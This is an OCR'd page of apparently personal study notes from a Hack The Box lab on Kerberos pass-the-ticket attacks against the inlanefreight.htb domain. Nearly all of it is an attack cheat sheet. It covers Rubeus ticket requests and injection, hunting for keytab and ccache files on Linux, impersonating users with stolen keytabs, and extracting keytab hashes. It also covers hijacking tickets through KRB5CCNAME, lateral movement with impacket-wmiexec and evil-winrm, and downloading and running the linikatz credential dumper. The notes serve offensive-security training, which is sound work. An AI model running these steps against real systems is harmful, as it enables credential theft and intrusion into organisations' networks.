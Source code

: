     - Rubeus - PowerShell Remoting with Pass the Ticket
        - Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
        - Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
- Linux
    - Linux machines store Kerberos tickets as ccache files in the /tmp directory
    - environment variable `KRB5CCNAME`
    - keytab
    - Identifying Linux and Active Directory Integration
        - realm list
        - sssd or winbind
        - ps -ef | grep -i "winbind\|sssd”
    - Finding Kerberos Tickets in Linux
    - Keytab
        - find / -name *keytab* -ls 2>/dev/null
    - Identifying Keytab Files in Cronjobs
        - crontab -l
        - kinit to import a keytab into our session and act as the user
    - Finding ccache Files
        - env | grep -i krb5
        - ls -la /tmp
    - Listing keytab File Information
        - klist -k -t
    - Impersonating a User with a keytab
        - klist
        - kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
        - klist
    - Extracting Keytab Hashes with KeyTabExtract
        - python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
    - Importing the ccache File into our Current Session
        - klist
        - cp /tmp/krb5cc_647401106_I8I133 .
        - export KRB5CCNAME=/root/krb5cc_647401106_I8I133
        - klist
    - Using Impacket with proxychains and Kerberos Authentication
        - impacket-wmiexec dc01 -k
        - Note: If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.
    - Evil-winrm
        - Installing Kerberos Authentication Package
            - sudo apt-get install krb5-user -
            - domain name: INLANEFREIGHT.HTB, and the KDC is the DC01
        - Kerberos Configuration File for INLANEFREIGHT.HTB
            - cat /etc/krb5.conf
            - `default_realm = INLANEFREIGHT.HTB`
            - `[realms]
            INLANEFREIGHT.HTB = {
            kdc = dc01.inlanefreight.htb
            }`
        - evil-winrm -i dc01 -r inlanefreight.htb
    - Impacket Ticket Converter
        - impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
    - Importing Converted Ticket into Windows Session with Rubeus
        - C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
    - Linikatz
        - wget [https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh](https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh)
        - /opt/linikatz.sh
